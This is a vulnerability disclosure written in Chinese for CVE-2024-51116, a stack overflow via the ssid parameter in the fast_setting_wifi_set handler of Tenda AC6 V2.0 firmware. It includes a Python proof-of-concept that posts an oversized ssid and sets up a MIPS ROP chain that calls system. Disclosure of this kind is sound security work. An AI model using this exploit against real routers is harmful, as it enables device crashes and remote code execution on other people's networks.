 # tenda AC6V2.0 缓冲区溢出漏洞报告  
# CVE-2024-51116
## 漏洞描述  

在 tenda AC6V2.0 的 `form_fast_setting_wifi_set` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数ssid可控，且它的值通过strcpy函数复制给栈上变量buff，造成溢出

<img width="353" alt="{56F106EB-265A-4E73-9C62-65145AA4093C}" src="https://github.com/user-attachments/assets/6443df7d-7ea4-4387-8a03-4d7b470dd4cd">



## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_ssid():
	url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
	payload = b'b'*0x400
	data = {"ssid": payload}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_ssid()
